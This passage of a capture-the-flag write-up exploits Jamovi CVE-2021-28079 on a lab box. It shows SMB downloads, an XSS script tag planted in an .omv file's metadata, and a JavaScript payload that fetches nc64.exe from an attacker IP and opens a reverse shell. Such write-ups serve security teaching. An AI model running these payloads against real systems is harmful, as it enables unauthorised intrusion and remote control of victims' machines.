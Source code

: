 I got a bit lazy, so I recursively downloaded all of the files from this share.&#x20;

```
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \Software\7z1900-x64.exe of size 1447178 as Software/7z1900-x64.exe (2355.4 KiloBytes/sec) (average 2355.4 KiloBytes/sec)
getting file \Software\jamovi-1.6.16.0-win64.exe of size 247215343 as Software/jamovi-1.6.16.0-win64.exe (13699.2 KiloBytes/sec) (average 13325.7 KiloBytes/sec)
getting file \Software\VNC-Viewer-6.20.529-Windows.exe of size 10559784 as Software/VNC-Viewer-6.20.529-Windows.exe (13306.2 KiloBytes/sec) (average 13324.9 KiloBytes/sec)
getting file \Documents\Analytics\Big 5.omv of size 6455 as Documents/Analytics/Big 5.omv (191.0 KiloBytes/sec) (average 13302.1 KiloBytes/sec)
getting file \Documents\Analytics\Bugs.omv of size 2897 as Documents/Analytics/Bugs.omv (101.0 KiloBytes/sec) (average 13282.7 KiloBytes/sec)
getting file \Documents\Analytics\Tooth Growth.omv of size 2142 as Documents/Analytics/Tooth Growth.omv (77.5 KiloBytes/sec) (average 13264.1 KiloBytes/sec)
getting file \Documents\Analytics\Whatif.omv of size 2841 as Documents/Analytics/Whatif.omv (106.7 KiloBytes/sec) (average 13246.2 KiloBytes/sec)
```

Here, we can see some `.exe` and `.omv` files, which are associated with Javmovi.&#x20;

### Javmovi RCE

When researhcing for Jamovi exploits, I came across this:

{% embed url="https://github.com/theart42/cves/blob/master/CVE-2021-28079/CVE-2021-28079.md" %}

The author of the PoC above is also the creator of this box, so I think we need to exploit something similar for this. The intended method is probably to run and install Jamovi on a Windows instance and then perform the XSS, but there are faster methods, such as here:

{% embed url="https://github.com/g33xter/CVE-2021-28079" %}

We can follow this PoC and `unzip` the file, then modify our metadata to include our XSS payload. First, let's craft our JS shell:

```javascript
const exp = require('child_process');
exp.exec("powershell -c wget 10.10.14.14:8000/nc64.exe -outfile C:\\Windows\\Tasks\\nc.exe");
exp.exec("C:\\Windows\\Tasks\\nc.exe -e cmd.exe 10.10.14.14 4444");
```

Then, we can change the `name` parameter to this:

```
<script src=\"http://10.10.14.14/jamovi.js\"></script>
```

Afterwards, re-zip the `Whatif.omv` file together, and host the respective Python HTTP servers. Then, we need to use `smbclient` to delete the old `Whatif.omv` file on the share and replace it with our own.

```
smb: \Documents\Analytics\> del Whatif.omv 
smb: \Documents\Analytics\> put Whatif.omv 
putting file Whatif.omv as \Documents\Analytics\Whatif.omv (130.9 kb/s) (average 130.9 kb/s)
```
